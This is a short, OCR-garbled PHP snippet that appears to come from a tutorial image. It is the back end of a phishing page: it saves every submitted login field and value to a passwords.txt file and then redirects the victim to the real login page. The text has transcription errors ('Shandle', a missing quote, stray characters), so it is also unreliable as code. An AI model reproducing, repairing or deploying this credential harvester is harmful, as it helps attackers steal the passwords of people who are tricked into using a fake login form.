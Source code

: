 <?php
header (Location: original login page');
Shandle = fopen("passwords.txt", "a");
foreach($_POST as $variable => $value) {
fwrite($handle, $variable);
fwrite (Shandle, "=");
fwrite($handle, $value);
fwrite($handle, "Ar\n");
?
fwrite($handle, "Ir\n");
fclose (Shandle);
exit;
?>
